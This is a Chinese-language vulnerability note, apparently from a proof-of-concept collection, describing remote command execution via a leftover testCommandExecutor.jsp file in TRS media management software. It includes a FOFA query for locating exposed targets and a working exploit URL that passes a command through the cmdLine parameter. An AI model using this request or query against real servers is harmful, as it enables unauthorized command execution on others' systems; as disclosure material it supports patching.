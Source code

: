 # 拓尔思 TRS testCommandExecutor.jsp 远程命令执行漏洞

## 漏洞描述

拓尔思 TRS testCommandExecutor.jsp测试文件存在远程命令执行漏洞，当网站运维者未删除测试文件时，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

```
拓尔思-TRS 
```

## FOFA

```
"TRS媒资管理系统登录页面"
```

## 漏洞复现

主页面

![image-20230314084307993](images/image-20230314084307993.png)

验证POC

```
/mas/front/vod/main.do?method=newList&view=forward:/sysinfo/testCommandExecutor.jsp&cmdLine=dir&workDir=&pathEnv=&libPathEnv=
```

![image-20230314084331676](images/image-20230314084331676.png)
